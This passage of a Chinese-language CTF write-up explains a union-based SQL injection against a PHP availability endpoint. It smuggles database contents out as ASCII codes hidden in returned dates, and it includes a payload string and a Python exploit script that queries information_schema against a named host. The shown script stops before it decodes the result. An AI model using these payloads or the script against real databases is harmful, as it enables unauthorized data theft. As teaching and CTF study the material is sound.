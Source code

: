 ``` php
        array_push($arr, $row);
      }
    } else {
      die($sql);
    }

    return [
        'results' => $arr
    ];
}
?>
```

在 id 的地方我們可以用 `union` 的方式來讓 price items 變成我們指定的資料，由於 `union` 需要知道有幾個欄位，因此可以先用 `order by {number}` 的方式去看看有幾個欄位，例如說 `order by 2`，代表用第二個欄位來排序，如果不足第二個就會出錯，所以我們可以用類似二分搜的方法知道有幾個欄位，嘗試過後發現一共是 4 個欄位。

接著，`2023-01-01` 換成 timestamp 是 1672502400，因此我們的 id 可以長這樣：

```
0 union select 1672502400,1672502400,1672502400,1672502400
```

會發現回傳的資料中，status 變成 Available，代表我們的 SQL injection 成功了，再來就是要去試哪一個欄位是 start_time，哪一個又是 end_time，可以把每個欄位都變成 1，看看回傳結果會不會改變，就知道有沒有動到這兩個欄位。

總之呢，一波嘗試過後發現第二個欄位是 start_time，第三個是 end_time。

那我們可以怎麼利用呢？一個簡單的做法是像上一題一樣，用 case when 來做事，例如說某條件符合時就 select 出指定的資料（狀態會變 Available），不符合則否（狀態會是 Unavailable），一樣可以慢慢把資料弄出來。

不過這題跟上一題有個很大的不同點，那就是這一題我們可以控制輸出資料中的 start_time 跟 end_time，雖然這兩個值一定要是日期，但我們可以把想回傳的資料偷渡在日期裡面。

我的做法就是這樣，簡單來說就是把想回傳的資料變成一個日期。

我們可以先拿到資料中的第 n 個字元，假設轉成 ascii 之後會是 x，我們可以把這個視為「x 天」的意思，我們把 `x*3600*24` 再加上 `2023-01-01` 的 timestamp 1672502400，就會得到一個新的 timestamp 做為 end_time，並且在 php 被轉成日期。

而我們從 response 中拿到這個日期以後，只要算出從 `2023-01-01` 過了幾天即可，因此把日期先轉回 timestamp，再減去 1672502400 以後除以 86400(`3600*24`)，就會得到這個天數，假設是 98 天好了，就代表當初讀到的字元是 chr(98) 也就是 b，就得到了一個字元。

因此，藉由把 ascii code 偷渡在日期中，每做一次操作我們可以拿到一個字元的資料，程式碼如下：

``` python
# exploit-ava.py
import requests
import datetime
import json
import urllib.parse
import time

host = 'https://od-php.herokuapp.com/sql'
base_time = 1672502400
index = 1
result = ''
field = 'group_concat(table_name)'
fr = " FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
fr = urllib.parse.quote(fr.encode('utf8'))
start = time.time()
while True:
  payload = f'ascii(SUBSTRING({field},{index}))*86400%2b{base_time}'
  response = requests.get(f'{host}/availability.php?id=12345%20union%20select%201%20,{base_time},{payload},4%20{fr}&start_time=2023-01-01&end_time=2023-01-01')
  index +=1
  if response.ok:
    data = json.loads(response.text)
    d = data['events'][0]['end']
    if d == '2023-01-01':
      break
```